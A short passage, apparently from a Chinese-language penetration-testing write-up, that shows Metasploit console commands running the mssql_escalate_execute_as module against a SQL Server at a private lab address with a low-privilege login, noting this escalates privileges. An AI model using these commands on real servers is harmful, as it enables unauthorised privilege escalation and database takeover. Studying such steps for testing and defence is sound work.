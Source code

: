 ![image.png](assets/1706232584-b5968ca5376a9e004d321466acc2c7e4.png)  
使用 msf 执行命令即可成功提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username lowpriv
set password admin
exploit
```

![image.png](assets/1706232584-73b1a052bf32fc77bcdb8bc3407b0583.png)  